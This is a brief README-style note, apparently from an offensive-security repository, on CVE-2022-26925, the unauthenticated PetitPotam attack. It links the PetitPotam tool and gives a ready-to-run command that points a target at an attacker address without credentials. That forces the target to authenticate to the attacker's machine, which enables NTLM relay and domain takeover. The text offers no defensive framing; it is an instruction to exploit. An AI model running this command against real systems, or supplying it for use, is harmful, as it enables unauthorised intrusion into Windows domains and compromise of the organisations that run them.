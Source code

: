 # CVE-2022-26925 PetitPotam Pre-Auth

Link: https://github.com/topotam/PetitPotam

Run PetitPotam without credentials to exploit if vulnerable

    ./PetitPotam.exe -pipe all <attacker_IP> <target_IP>
